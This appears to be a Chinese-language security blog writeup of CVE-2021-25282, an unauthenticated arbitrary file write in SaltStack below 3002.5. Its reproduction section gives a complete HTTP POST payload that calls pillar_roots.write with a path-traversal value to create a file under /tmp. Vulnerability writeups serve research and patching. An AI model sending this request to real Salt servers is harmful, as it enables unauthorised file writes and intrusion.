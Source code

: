 ```yaml
---
layout: post
title: "（CVE-2021-25282）Saltstack 任意文件写入漏洞"
date: '2021-04-14 09:56:49'
tags:
- cve
- writeup
- hash-import-2023-03-22-16-36
---
```


## 一、漏洞简介

CVE-2021-25282 可在未授权的情况下写入任意数据。

## 二、漏洞影响

SaltStack \< 3002.5

## 三、复现过程

发送数据包来创建文件

    POST /run HTTP/1.1
    Host: www.0-sec.org:8000
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0
    Content-Length: 142
    Content-type: application/json
    
    {
        "eauth":"auto",
        "client":"wheel_async",
        "fun":"pillar_roots.write",
        "data":"test",
        "path":"../../../../../../../../../tmp/vuln"
    }

<img src="assets/img/blog/imported/cve-2021-25282-16147494041866.jpg" class="kg-image" alt loading="lazy">

创建文件成功

<img src="assets/img/blog/imported/cve-2021-25282-16147494192228.jpg" class="kg-image" alt loading="lazy">